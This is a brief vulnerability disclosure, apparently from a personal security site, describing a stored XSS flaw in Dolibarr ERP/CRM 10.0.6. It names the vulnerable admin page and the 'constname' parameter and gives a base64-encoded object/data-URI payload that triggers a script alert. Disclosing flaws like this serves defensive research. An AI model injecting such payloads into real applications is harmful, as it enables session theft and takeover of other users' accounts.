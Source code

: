 ```yaml
---
title: 0day's
layout: page
permalink: /0days
---
```


# Dolibarr - Stored XSS [constname parameter]
# Version : 10.0.6
# Date: 17.01.2020
# Vendor : [https://www.dolibarr.org/](https://www.dolibarr.org/)
# CVE : N/A

Description: In this version of the Dolibarr ERP - CRM program is allows Stored XSS by placing a payload in the "constname" parameter field in other setup page.

# Url : http://localhost/htdocs/admin/const.php
# Parameter : constname
# Payload : \<object data=data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+>\</object>
